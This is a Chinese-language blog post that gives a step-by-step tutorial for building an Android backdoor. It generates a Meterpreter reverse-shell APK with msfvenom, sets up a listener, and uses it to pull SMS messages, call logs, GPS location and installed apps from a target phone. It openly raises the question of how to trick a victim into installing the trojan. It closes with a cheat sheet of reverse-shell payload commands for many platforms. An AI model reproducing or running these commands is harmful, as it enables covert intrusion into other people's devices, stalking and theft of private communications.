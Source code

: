 ```yaml
---
layout: post  
title: H系列 - Android 后门程序
date: 2022-11-23  
tags:  H系列
---
```

### 纵然时光相隔百年，仍感你心近在咫尺。

## Kali Linux利用MSF入侵安卓手机

环境：kali Linux。  
靶机：One plus 6T。(验证了其它品牌手机或模拟器都可以)  
工具：msfvenom、msfconsole（Kali系统内置，利用漏洞生成后门软件）。   

## 大致流程：  
1. 生成手机安装的木马文件 -> muma.apk.  
2. 开启监听程序，监听靶机是否上钩。 
3. 通过某些手段使靶机安装我们的木马文件，并点击打开。
4. 当靶机安装木马文件并点击后，监听程序便得到了响应，通过命令获取靶机信息。

## go
```
1.启动kali系统，打开命令行。  

2.su        -》 进入root模式。

3.ifconfig      -》 查看内网IP，如图，我的IP是 192.168.0.114，备用。
```

<br/>
![](/images/posts/kaliMSF/1.webp){:width="80%" height="80%"}  
<br/>

```
4.msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.114 lport=3369 > muma.apk     
 -》  lhost是kali的IP；lport随便写一个没有被占用的端口号就可以，记住，后面有用到；文件名随便写，后缀是 .apk 就行。
 如下图所示，此时木马文件已经生成，在 /home/kali  目录下。
```

<br/>
![](/images/posts/kaliMSF/2.webp){:width="80%" height="80%"}  
<br/>

```
5.在 /home/kali 目录下找到生成的muma.apk文件。
```

<br/>
![](/images/posts/kaliMSF/3.webp){:width="80%" height="80%"}  
<br/>

```
6. 我通过合法手段将木马文件安装在了我的测试机上。 
```

<br/>
![](/images/posts/kaliMSF/4.webp){:width="30%" height="30%"}  
<br/>


```
7. msfconsole     -》 启动 kali 内置的 msfconsole 工具。
```

<br/>
![](/images/posts/kaliMSF/5.webp){:width="80%" height="80%"}  
<br/>

```
8.配置参数：   

use exploit/multi/handler     -》 （选择模块）

set payload android/meterpreter/reverse_tcp     -》（选择攻击模块）

set LhOST 192.168.0.114     -》（填写自己主机的IP地址）

set lport 3369      -》（填写刚才生成文件时的端口号）

run   -》 开始监听 

```
<br/>
![](/images/posts/kaliMSF/6.webp){:width="80%" height="80%"}  
<br/>

```
9. 在靶机上点击刚刚安装的木马程序，并观察监听程序窗口，出现meterpreter你就已经成功的入侵。
```
<br/>
![](/images/posts/kaliMSF/7.webp){:width="80%" height="80%"}  
<br/>


```

一些入侵命令  

1.查看对方手机系统信息

命令：sysinfo

2.查看对方手机安装哪些app文件

命令：app_list

3.实时查看对方手机的短信，所有短信，甚至包含手机上已经删除的

命令：dump_sms

4.获取对方手机的通话记录

命令：dump_calllog

5.实时获取对方手机GPS定位

命令：geolocate

```

```
如下图所示，这里成功的拿到了手机系统信息，以及所有短信，在 sms_dump_20221123021710.txt 这里。
当出现 [-] Error running command dump_calllog: Rex::TimeoutError Operation timed out，这个信息时，
则与靶机断开了连接，需要先退出监听 exit ，然后 重新运行 run ，再次在靶机上点击木马程序。

```
<br/>
![](/images/posts/kaliMSF/8.webp){:width="80%" height="80%"}  
<br/>

<br/>
![](/images/posts/kaliMSF/9.webp){:width="80%" height="80%"}  
<br/>

## 问题 

1. 如何将木马文件安装在目标手机上，并诱导用户点击。  
2. 连接有很大概率被拒绝 [*] 192.168.0.102 - Meterpreter session 3 closed.  Reason: Died，需要重试多次。
3. 连接过程中有很大概率被断开 [-] Error running command dump_calllog: Rex::TimeoutError Operation timed out，  需要重新运行监听程序。
4. 获取信息多为敏感信息，比如短信，通讯录，通话记录，定位信息等，这里是需要木马程序在靶机上申请敏感权限获取的，此时用户便会知情，点击拒绝则无法获取信息。

## 其它

你不只可以生成android手机的后台程序，还可以  
```
windows
msfvenom -p windows/meterpreter/reverse_tcp LPORT=控制机端口 LHOST=控制机ip -f -o shell.exe
安卓app:
msfvenom -p android/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口 -o test2.apk
Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f elf > shell.elf
Mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f macho > shell.macho
PHP：
msfvenom -p php/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f raw -o test.php
ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f asp > shell.asp
ASPX：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f aspx > shell.aspx
JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f raw > shell.jsp
Bash：
msfvenom -p cmd/unix/reverse_bash LHOST=控制机ip LPORT=控制机端口-f   raw > shell.sh
Perl
msfvenom -p cmd/unix/reverse_perl LHOST=控制机ip LPORT=控制机端口-f raw > shell.pl
Python
msfvenom -p python/meterpreter/reverser_tcp LHOST=控制机ip LPORT=控制机端口-f   raw > shell.py
```

<br/>
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
转载请注明：[劉清揚的博客](http://yuqianglianshou.com) » [ H系列 - Android 后门程序 ](http://yuqianglianshou.com/2022/11/H系列 - Android 后门程序/)  
<br/>